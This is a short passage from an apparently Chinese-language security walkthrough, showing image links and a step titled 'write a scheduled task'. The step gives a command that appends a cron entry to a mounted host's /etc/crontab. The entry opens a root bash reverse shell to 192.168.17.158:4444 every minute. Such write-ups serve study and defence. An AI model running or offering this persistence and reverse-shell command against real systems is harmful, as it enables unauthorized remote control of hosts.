 [![](assets/1701826061-20776aaed0adfa4927ee0d164a1bd924.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165313-ee8ed612-7313-1.png)  
[![](assets/1701826061-2454090321fa56c47f73f62097fcdb94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165322-f3affc8e-7313-1.png)

Step 9：之后写计划任务

```plain
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.17.158/4444 0>&1\n" >> /mnt/etc/crontab
```
